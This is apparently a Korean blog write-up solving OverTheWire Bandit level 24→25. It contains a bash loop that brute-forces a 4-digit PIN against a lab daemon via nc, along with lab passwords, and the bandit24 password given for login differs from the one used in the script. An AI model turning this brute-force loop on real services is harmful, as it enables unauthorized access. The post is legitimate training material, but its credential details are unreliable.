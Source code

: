 ```yaml
---
layout: post
title: "[Bandit] Level 24 → 25 풀이"
date: 2025-07-05 09:05:00 +0900
categories: [bandit]
tags: [overthewire, bandit, linux, brute-force, shell-script]
---
```


> 📝 **공식 문제 (Level 24 → 25)**
>
> **Level Goal**
> A daemon is listening on port 30002 and will give you the password for bandit25 if you send it the password for bandit24 and a 4 digit numeric PIN code.
>
> **Commands you may need to solve this level**
> `nc`, `telnet`

---

## 🔐 Level Info

- **접속 정보**
  - 사용자: `bandit24`
  - 비밀번호: `D2J41fb8mpcr9hjsf32ECf2d012eK2g9`
  
- **접속 명령어**

  ```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
  ```

---

## 🧪 풀이 과정

1.  `localhost:30002`로 접속하여 현재 비밀번호와 4자리 PIN을 입력해야 함을 확인
2.  0000부터 9999까지 모든 PIN을 시도하는 `for` 루프 쉘 스크립트 작성
3.  스크립트를 실행하여 올바른 PIN을 찾고 다음 비밀번호 획득

```bash
# 풀이용 스크립트 파일 (brute.sh) 내용
#!/bin/bash
PASS="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"
for i in {0000..9999}
do
  echo "$PASS $i"
done | nc localhost 30002 | grep -v "Wrong"
```

## 🧪 다른 풀이 방법
1.  스크립트 파일 없이 터미널에서 한 줄로 for 루프를 실행

```bash
bandit24@bandit:~$ for i in {0000..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002 | grep -v "Wrong"
```

---

## 🎯 결과

<details markdown="1">
<summary>👀 클릭하여 비밀번호 확인하기</summary>

```bash
pOhf1B4V482m1D5OPs2f42a5M7i42oSb
```

</details>

---

## 💡 배운 점
1. 쉘 스크립트 for 루프를 이용한 Brute-force 공격
2. {0000..9999}: 0으로 채워진 4자리 숫자를 순차적으로 생성함.
3. grep -v "Wrong": "Wrong"이 포함된 줄을 제외하고 출력하여 성공한 결과만 필터링함.

<hr class="short-rule">